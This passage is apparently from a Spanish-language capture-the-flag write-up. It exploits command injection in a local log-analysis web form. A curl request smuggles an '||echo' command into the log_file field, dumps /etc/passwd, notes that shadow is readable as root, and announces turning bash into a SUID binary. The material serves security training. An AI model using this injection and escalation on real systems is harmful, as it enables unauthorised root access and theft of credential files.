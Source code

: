 Eso significa que podemos inyectar comandos... incluso al intentar agregarle una condicional OR (`||`), nos mostrará el contenido de todos los archivos que le metamos:

```bash
amay@sea:~$ curl --basic -u 'amay:mychemicalromance' -d "log_file=/etc/passwd||echo%20'1'&analyze_log" http://127.0.0.1:8080/
</form>
... [snip]
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
fwupd-refresh:x:111:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
amay:x:1000:1000:amay:/home/amay:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
geo:x:1001:1001::/home/geo:/bin/bash
_laurel:x:997:997::/var/log/laurel:/bin/false
<p class='error'>Suspicious traffic patterns detected in /etc/passwd||echo '1' >/tmp/asd:</p><pre>_laurel:x:997:997::/var/log/laurel:/bin/false</pre>        </div>
... [snip]
```

Si intentamos leer archivos privilegiados como el `shadow`, el aplicativo nos lo retornará sin problemas, lo que es un claro indicio de que este proceso está siendo ejecutado por root. Aprovechandonos de la ejecución de comandos ahora simplemente haremos que la bash sea un binario SUID.
